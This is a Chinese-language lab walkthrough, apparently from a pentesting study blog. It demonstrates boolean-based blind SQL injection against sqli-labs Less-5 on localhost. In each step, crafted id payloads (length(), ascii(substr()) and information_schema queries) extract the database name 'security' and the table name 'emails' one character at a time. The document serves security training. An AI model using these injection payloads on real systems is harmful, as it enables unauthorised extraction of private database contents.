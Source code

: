 在浏览器提交合法id值和不合法的id值，其显示结果不同

<img src="https://img.yatjay.top/md/202203251648797.png" alt="image-20220212094856662" style="zoom: 50%;" />

<img src="https://img.yatjay.top/md/202203251648175.png" style="zoom: 50%;" />

因此可以进行布尔盲注

### 判断数据库名长度

`http://localhost/pentest/sqlilabs/Less-5/?id=-1' or length(database())=8--+`

说明数据库名的长度为8

![](https://img.yatjay.top/md/202203251648393.png)

### 判断数据库名字符

`http://localhost/pentest/sqlilabs/Less-5/?id=1' and ascii(substr(database(),1,1))=115--+`

说明数据库名第一个字符为s

![](https://img.yatjay.top/md/202203251648451.png)

依次得到数据库名为`security`

### 判断表的总数

`http://localhost/pentest/sqlilabs/Less-5/?id=1' and (select count(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database())=4--+`

得到表名总数为4，共计4张表

![](https://img.yatjay.top/md/202203251648521.png)

### 判断数第一张表的表名长度

`http://localhost/pentest/sqlilabs/Less-5/?id=1' and (select length(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database() limit 0,1 )=6--+`

得到第一张表的表名长度为6

![](https://img.yatjay.top/md/202203251648293.png)

### 判断第一张表的表名字符

`http://localhost/pentest/sqlilabs/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101--+`

得到第一张表的表名第一个字符为`e`

![](https://img.yatjay.top/md/202203251648020.png)

依次的到第一张表的表名为`emails`
